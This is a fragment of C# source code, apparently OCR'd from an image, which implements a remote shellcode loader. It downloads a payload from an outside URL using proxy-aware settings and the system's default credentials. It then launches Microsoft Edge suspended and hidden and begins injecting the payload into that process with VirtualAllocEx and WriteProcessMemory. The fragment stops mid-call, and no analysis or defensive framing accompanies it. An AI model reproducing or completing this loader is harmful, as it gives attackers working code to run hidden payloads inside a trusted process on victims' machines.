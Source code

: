 ```
        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern bool CloseHandle(IntPtr hObject);

        public enum CREATION_FLAGS : uint
        {
            CREATE_SUSPENDED = 0x00000004,
            CREATE_NO_WINDOW = 0x08000000
        }

        public enum PROTECTION_FLAGS : uint
        {
            PAGE_READWRITE = 0x04,
            PAGE_EXECUTE_READ = 0x20
        }

        public enum ALLOCATION_TYPE : uint
        {
            MEM_COMMIT = 0x00001000,
            MEM_RESERVE = 0x00002000
        }

        public Program()
        {
            byte[] shellcode;

            using (var client = new WebClient())
            {
                // make proxy aware
                client.Proxy = WebRequest.GetSystemWebProxy();
                client.UseDefaultCredentials = true;

                // set allowed tls versions
                ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12 | SecurityProtocolType.Tls13;

                shellcode = client.DownloadData("https://www.infinity-bank.com/shellcode.bin");
            };

            var startup = new STARTUPINFO { dwFlags = 0x00000001 };
            startup.cb = Marshal.SizeOf(startup);

            var success = CreateProcessW(
                @"C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe",
                @"""C:\Program Files\(x86)\Microsoft\Edge\Application\msedge.exe --no-startup-window --win-session-start /prefetch:5""",
                IntPtr.Zero,
                IntPtr.Zero,
                false,
                (uint)(CREATION_FLAGS.CREATE_NO_WINDOW | CREATION_FLAGS.CREATE_SUSPENDED),
                IntPtr.Zero,
                @"C:\Program Files (x86)\Microsoft\Edge\Application",
                ref startup,
                out var processInfo);

            var baseAddress = VirtualAllocEx(
                processInfo.hProcess,
                IntPtr.Zero,
                (uint)shellcode.Length,
                (uint)(ALLOCATION_TYPE.MEM_COMMIT | ALLOCATION_TYPE.MEM_RESERVE),
                (uint)PROTECTION_FLAGS.PAGE_READWRITE);

            success = WriteProcessMemory(
                processInfo.hProcess,
```